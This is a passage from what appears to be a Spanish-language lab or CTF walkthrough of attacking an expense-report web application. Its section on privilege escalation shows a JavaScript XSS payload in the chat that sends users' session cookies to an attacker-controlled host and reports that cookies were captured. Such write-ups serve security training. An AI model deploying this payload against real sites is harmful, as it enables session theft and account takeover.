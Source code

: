**🎯 Objetivo:** Enviar el informe de gastos para aprobación:

![Envío de informe](Pasted%20image%2020251009233618.png)

**❌ Problema:** El informe requiere aprobación de un superior.

**🔍 Análisis:** El perfil muestra que el manager de Samuel es **Manon Riviere**:

![Manager identificado](Pasted%20image%2020251009234006.png)

### 3.7 Escalación de Privilegios - XSS en Chat

El sistema de chat también es vulnerable a XSS. Implementamos el mismo payload para capturar cookies de otros usuarios:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.188:4545/?cookie=' + document.cookie);
request.send();
```

**🎯 Resultado:** Capturamos múltiples cookies de sesión:
